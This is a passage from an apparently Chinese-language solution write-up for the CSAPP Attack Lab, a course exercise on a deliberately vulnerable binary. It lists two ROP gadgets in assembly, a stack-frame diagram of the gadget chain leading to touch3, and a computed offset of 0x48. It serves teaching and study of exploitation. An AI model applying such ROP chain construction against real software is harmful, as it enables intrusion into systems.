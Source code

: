 ```assembly

# %rsp + offset = cookie地址 -> %rax
0x4019d6 <gadget7>: 
:	48 8d 04 37				lea	(%rdi,%rsi,1),%rax
:	c3						retq
  
# cookie地址 -> %rdi
0x4019a2 <gadget8>:
:	48 89 c7				movq	%rax,%rdi	# 不能使用 movl，因为地址高四字节不为0
:	c3						ret					# 跳转到 touch3
```

栈帧图：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td colspan="2">cookie 字符串</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;touch3&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget8&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget7&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget6&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget5&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget4&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">offset<span style="float:right">(%rsi)</span></td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget3&gt;</td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget2&gt;<span style="float:right">(%rdi)</span></td>
    </tr>
    <tr height="40">
        <td colspan="2">&lt;gadget1&gt;</td>
    </tr>
</table>

可计算出，偏移量 offset = 0x48。
